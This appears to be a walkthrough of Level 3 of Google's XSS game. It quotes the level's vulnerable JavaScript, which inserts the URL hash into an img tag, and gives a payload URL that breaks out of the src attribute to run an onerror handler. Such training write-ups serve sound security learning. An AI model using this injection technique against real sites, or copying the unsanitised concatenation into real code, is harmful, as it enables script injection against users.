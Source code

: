 ```yaml
---
title: Level 3 That sinking feeling...
edit_url: null
---
```


![1](https://github.com/user-attachments/assets/90bc719e-e4ad-4584-bb07-1e6d9be989df)

## Hints

> 1. To locate the cause of the bug, review the JavaScript to see where it handles user-supplied input.

> 2. Data in the `window.location` object can be influenced by an attacker.

> 3. When you've identified the injection point, think about what you need to do to sneak in a new HTML element.

> **4.** As before, using `<script> ...` as a payload won't work because the browser won't execute scripts added after the page has loaded.

## Script

```html {5,8} showLineNumbers
    <script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
 
        window.location.hash = num;
 
        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(num)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }
 
        // Tell parent we've changed the tab
        top.postMessage(self.location.toString(), "*");
      }
 
      window.onload = function() { 
        chooseTab(unescape(self.location.hash.substr(1)) || "1");
      }
 
      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(unescape(self.location.hash.substr(1)));
        }
      }, false);
    </script>
```

In the source code we can see that the `num` variable is populated with the value of `window.location.hash`.

```
e.g.
URL: https://xss-game.appspot.com/level3/frame#1
num = 1
```

The value of `num` is then inserted into the source address of the image.

```
html += "<img src='/static/level3/cloud" + num + ".jpg' />";

e.g.
num = 1
html += "<img src='/static/level3/cloud1.jpg' />";
```

## Payload

Since we can control the value of `window.location.hash`, we can control the source address of the image.

In order to solve this level, we can provide the following URI: 

```
https://xss-game.appspot.com/level3/frame#4' onerror=alert(1) ";
```

This will cause the source code to look as follows:

![2](https://github.com/user-attachments/assets/932a645a-9fe7-466f-8b8c-f620b1e4f704)

![3](https://github.com/user-attachments/assets/23e4f6c1-39bd-4b74-aaa9-7327aa06ebec)
